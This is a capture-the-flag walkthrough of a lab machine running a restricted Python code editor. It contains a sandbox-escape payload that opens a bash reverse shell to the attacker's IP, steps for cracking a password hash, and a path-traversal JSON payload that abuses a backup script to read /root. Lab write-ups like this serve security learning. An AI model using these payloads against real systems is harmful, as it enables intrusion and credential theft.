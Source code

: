 # 👨‍💻Code

## 🧠Summary
 >The machine hosted a restricted Python code editor on port 5000, blacklisting keywords like import and os. After discovering that subprocess.Popen was accessible via __subclasses__()[317], I crafted a reverse shell payload to gain Docker access. Inside the container, I found a database.db containing hashed credentials. After cracking the hash, I SSH’ed into the main system. Privilege escalation was achieved via a vulnerable backy.sh script that processed a crafted JSON payload to dump /root via a .tar file, revealing the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v 10.10.11.62
  ```
  - The result of the nmap scan is ![](./screenshots/nmap_scan.png)
  - The ssh and port 5000 which host http is found open

## 🌐Step 2 (Web enumeration)
- Tried web enumeration and subdomain enumeration and negative

## 📌Step 3 (Loop hole)
- Finally came to the conclusion to use the code editor to exploit the system
- Tried to write a reverse shell program by importing the module socket and failed
- The word import is blacklisted tried to bypass it using "__import__()" still failed
- Tried to find what all modules are present and found popen which is a submodule of subprocess
- Exploited this using the code
  ```bash
  raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
  ```
- Used netcat to connect to my ip address and got a docker bin
- Manually searched the directories manually and found database.db
- Dumped the database.db and got the username and password hash

## 🔐Step 4 (password cracking)
- Stored the password hash inside a hash.txt file
- Used john and wordlist rockyou.txt to crack the hash and successfully cracked the password

## ⚓Step 5 (Foothold)
- ssh into the machine using the obtained hash and username
- Captured the user flag from the home directory
- Used sudo -l and found out that a bash program called backy can be exploited
- Searched in the net for info and found out it uses a json input and give a .tar file output which dumps what we gave into the json file
- Found a json exploit in the net for this
  ```json
  {
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
    ]
  }
  ```
- It dumped a .tar file and extracted the tar file
- The extracted file contain a root directory in which the root flag was present
- Captured the root flag 🏴
